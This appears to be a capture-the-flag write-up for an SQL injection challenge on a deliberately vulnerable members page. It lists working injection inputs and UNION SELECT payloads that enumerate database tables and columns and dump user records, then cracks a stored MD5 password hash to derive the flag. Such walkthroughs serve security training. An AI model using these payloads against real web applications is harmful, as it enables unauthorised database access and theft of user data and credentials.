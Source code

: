 # SQL_Injection_members

## SQL_Injection_explain

SQL injection attack refers to the operation that the attacker wants by constructing special input as a parameter and passing it into the web application, changing the semantics of the original SQL statement.

## Test_sql_injection

    # input:
    "'", "--", "1 or 1=1" ...
    
    # result:
    "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1"

## Get_data

    # input:
    "1 or 1=1"
    
    # result:
    ID: 1 or 1=1 
    First name: Barack Hussein
    Surname : Obama

    ID: 1 or 1=1 
    First name: Adolf
    Surname : Hitler

    ID: 1 or 1=1 
    First name: Joseph
    Surname : Staline

    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

## Analyze_data_and_try_to_find_information
    # Info we want to know:
    ID: 1 or 1=1 
    First name: Flag
    Surname : GetThe

    # input: (1) to find current database
    1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database();

    # result: (1)
    ID: 1 or 1=1 union SELECT null, table_name FROM information_schema.tables WHERE table_schema=database(); 
    First name: 
    Surname : users

    # input: (2) to find columns informations
    1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 

    # result: (2)
    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : user_id

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : first_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : last_name

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : town

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : country

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : planet

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : Commentaire

    ID: 1 or 1=1 union SELECT table_name, column_name FROM information_schema.columns 
    First name: users
    Surname : countersign

## Final_analysis
    # input: 
    1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users

    # result:
    ID: 1 or 1=1 union select null, concat(user_id, first_name, last_name, town, country, planet, Commentaire, countersign) from users 
    First name: 
    Surname : 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28

## Get_the_flag
    5ff9d0165b4f92b14994e5c685cdce28: MD5 Hash -> crack hash: FortyTwo
    fortytwo -> SHA256: 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5


## Solutions